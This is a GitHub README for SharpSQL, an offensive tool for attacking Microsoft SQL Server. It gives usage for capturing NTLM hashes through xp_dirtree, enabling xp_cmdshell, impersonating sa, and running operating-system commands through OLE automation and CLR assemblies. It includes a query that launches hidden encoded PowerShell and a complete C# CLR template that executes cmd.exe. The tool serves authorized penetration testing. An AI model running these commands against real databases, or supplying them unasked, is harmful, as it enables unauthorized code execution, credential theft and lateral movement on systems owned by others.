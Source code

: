 # SharpSQL

Simple port of PowerUpSQL
- Methods and options are case-insensitive e.g. `Get-SQLInstanceDomain`/`get-sqlinstancedomain` or `-Instance`/`-instance`
- `-Instance` required for all methods except `Get-SQLInstanceDomain` and `Check-SQLInstanceDomainAccess`

Thanks to [tevora-threat](https://github.com/tevora-threat) for getting the ball rolling.
This fork builds on the work of [mlcsec](https://github.com/mlcsec).
<br>

## Usage
```
SharpSQL fork by jannlemm0913, original by @mlcsec

Usage:

    SharpSQL.exe [Method] [-Instance <sql.server>] [-LinkedInstance <linked.sql.server>] [-User <user> -Password <password>] [-Command <whoami>] [-Query <query>]

Options:

    -Instance                  - The instance to target
    -Db                        - The db to connect to (default: master)
    -LinkedInstance            - The linked instance to target
    -Ip                        - The IP to xp_dirtree (share: /pwn)
    -User                      - SQL Server or domain account ("domain\user") to authenticate with.
    -Password                  - SQL Server or domain account password to authenticate with.
    -Impersonate               - The database user to impersonate
    -Command                   - The command to execute (default: whoami - Invoke-OSCmd, Invoke-LinkedOSCmd, Invoke-ExternalScript, and Invoke-OLEObject)
    -Query                     - The raw SQL query to execute
    -Verbose                   - Enable verbose output
    -Help                      - Show help

Methods:
    Get-SQLInstanceDomain           - Get SQL instances within current domain via user and computer SPNs (no parameters required)
    Check-SQLInstanceDomainAccess   - Checks access across all SQL instances within current domain
    Check-SQLInstanceAccess         - Checks access for specified SQL instance
    Get-Databases                   - Get available databases 
    Get-DBUser                      - Get database user via USER_NAME
    Get-GroupMembership             - Get group membership for current user ('guest' or 'sysadmin')
    Get-Hash                        - Get hash via xp_dirtree, works nicely with impacket-ntlmrelayx
    Get-ImpersonableUsers           - Get impersonable users 
    Get-LinkedServers               - Get linked SQL servers
    Get-LinkedPrivs                 - Get current user privs for linked server
    Get-Sysadmins                   - Get sysadmin users
    Get-SystemUser                  - Get system user via SYSTEM_USER
    Get-SQLQuery                    - Execute raw SQL query
    Get-Triggers                    - Get SQL server triggers
    Get-Users                       - Get users from syslogins
    Get-UserPrivs                   - Get current user server privileges
    Check-Cmdshell                  - Check whether xp_cmdshell is enabled on instance
    Check-LinkedCmdshell            - Check whether xp_cmdshell is enabled on linked server
    Clear-CLRAsm                    - Drop procedure and assembly (run before Invoke-CLRAsm if previous error)
    Enable-Cmdshell                 - Enable xp_cmdshell on instance
    Enable-LinkedCmdshell           - Enable xp_cmdshell on linked server
    Invoke-OSCmd                    - Invoke xp_cmdshell on instance
    Invoke-LinkedOSCmd              - Invoke xp_cmdshell on linked server
    Invoke-ExternalScript           - Invoke external python script command execution 
    Invoke-OLEObject                - Invoke OLE wscript command execution
    Invoke-CLRAsm                   - Invoke CLR assembly procedure command execution
    Invoke-UserImpersonation        - Impersonate database user and execute query
    Invoke-DBOImpersonation         - Impersonate dbo on msdb and execute query

Examples:

    SharpSQL.exe Get-SQLInstanceDomain
    SharpSQL.exe Check-SQLInstanceDomainAccess -User "sa" -Password "***"
    SharpSQL.exe Check-SQLInstanceAccess -Instance sql.server -User "DOMAIN\User" -Password "***"
    SharpSQL.exe Get-UserPrivs -Instance sql.server
    SharpSQL.exe Get-Sysadmins -Instance sql.server
    SharpSQL.exe Get-LinkedServers -Instance sql.server
    SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
    SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami /all"
    SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\users\"
    SharpSQL.exe Invoke-CLRAsm -Instance sql.server -Command "whoami && ipconfig"
```

<br>

## Demos and Examples
### Get-GroupMembership
![image](https://user-images.githubusercontent.com/47215311/153180706-78e2a53c-79fb-4db0-ba03-cda16d476966.png)

### Get-SQLquery
![image](https://user-images.githubusercontent.com/47215311/153181678-6d61bb45-ff9b-4451-93ff-9497ab875bc5.png)

### Get-UserPrivs
![image](https://user-images.githubusercontent.com/47215311/153054239-3937a19a-5514-42fb-980c-4e1676f085ca.png)

### Invoke-OSCmd
![image](https://user-images.githubusercontent.com/47215311/153182593-e40747ff-b9f1-4ed4-a634-556f37e617ea.png)

### OLE Object via Impersonation
```
.\SharpSQL.exe invoke-userimpersonation -instance dc01 -impersonate sa -Query "EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'powershell -exec bypass -nop -w hidden -enc blahblah';"
```

### Impersonation and xp_cmdshell
```
.\SharpSQL.exe invoke-userimpersonation -instance dc01 -impersonate sa -Query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"

.\SharpSQL.exe invoke-userimpersonation -instance dc01 -impersonate sa -Query "EXEC xp_cmdshell 'whoami'"
```

### Command execution via CLR Assembly 
```
.\SharpSQL.exe Invoke-clrasm -instance sql01 -command "cd && ipconfig"
[*] Authenticated to: sql01
[*] Invoke-CLRAsm:
C:\Windows\system32

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 192.168.168.5
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.168.254
```
The following template is currently used for the custom CLR assembly:
```c#
using System;
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;

public class ClassLibrary1
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmdExec(SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();

        proc.WaitForExit();
        proc.Close();
    }
}
```
The method automatically deletes the created procedure and assembly after each invocation. However, if an error occurs you may have to clear this before the next call by using `Clear-CLRAsm`.



<br>



## Todo

- Test:
    - `Invoke-ExternalScript` - not tested in lab

- Fix:
    - `Enable-LinkedCmdshell` - rpc or metadata error currently, `Check-LinkedCmdshell` and `Invoke-LinkedOSCmd` work fine

- Add:
    - `Add-User`
    - `Add-LinkedUser`
    - `Enable-RPC` - on instance and linkedinstance, allows for EXEC... AT...
    - double link crawl functionality, raw queries should work as is
